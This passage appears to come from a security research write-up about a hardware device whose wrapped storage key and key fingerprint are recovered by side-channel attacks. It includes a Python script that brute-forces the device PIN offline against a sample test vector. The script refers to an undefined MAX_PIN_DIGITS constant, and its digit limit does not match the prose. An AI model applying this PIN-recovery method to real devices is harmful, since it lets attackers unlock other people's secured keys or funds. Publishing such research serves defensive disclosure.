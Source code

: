 Applying to this device the two profiled side-channel attacks presented here, by only using around 12 PIN attempts, we get, with a good success rate:

- `wrapped_key` from the attack on AES,

- `key_fingerprint` from the attack on `memcmp`.

We can now mount an off-line brute-force, which will test each PIN on `wrapped_key` until the resulting `storage key` produces the correct `key_fingerprint`. Testing all the possible PIN (up to 9 digits) within a simple script takes around 10 minutes on a single thread.

```python
from time import perf_counter
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes

# Test vector for PIN=5555
WRAPPED_STORAGE_KEY = b"\x1b\xff\x8575\x86=<\x96\xc0\x10\xb3#\x02\x84\xba\x1dG\xd2PO\xf7\x1d\x1f\xbd&@\xe9\xd7\x12)\x9b\x99r\x18s\x16\xb2-U\xee|\xe8\xbbJ\xa0\xe11|nf\xe8\n\xaf\x86\x9f\x84\x99z]\x05\xca#\xd5"
STORAGE_KEY_FINGERPRINT = b"\xd2\x87C\xfd\xa4\xd5\xab/D\x87\xc9\xfe\xd0\xb0\xfd\xc9\xa2\x9f\xb4\xf4\x99r\xfa\x0c\xc3\xa5\x079](\xb0|"

def bruteforce(wrapped_key: bytes, fingerprint: bytes, max_pin_digits=8) -> str:
    backend = default_backend()

    for i in range(10 ** max_pin_digits):
        pin = str(i)
        if "0" in pin:
            continue

        digest = hashes.Hash(hashes.SHA512(), backend=backend)
        digest.update(pin.encode())
        wrapping_key = digest.finalize()

        cipher = Cipher(
            algorithms.AES(wrapping_key[:32]), modes.CBC(wrapping_key[32:48]), backend,
        )
        decryptor = cipher.decryptor()
        storage_key = decryptor.update(wrapped_key) + decryptor.finalize()

        digest = hashes.Hash(hashes.SHA256(), backend=backend)
        digest.update(storage_key)
        if digest.finalize() == fingerprint:
            return pin

def main():
    print(f"Brute-forcing all pin with {MAX_PIN_DIGITS} or less digits...")

    start = perf_counter()
    pin = bruteforce(WRAPPED_STORAGE_KEY, STORAGE_KEY_FINGERPRINT)
    stop = perf_counter()

    if pin:
        print(f"Brute-forcing SUCCESS with pin {pin} in {stop - start:f}s.")
    else:
        print(f"Brute-forcing FAILED with {MAX_PIN_DIGITS}-digits pin in {stop - start:f}s.")

if __name__ == "__main__":
    main()
```
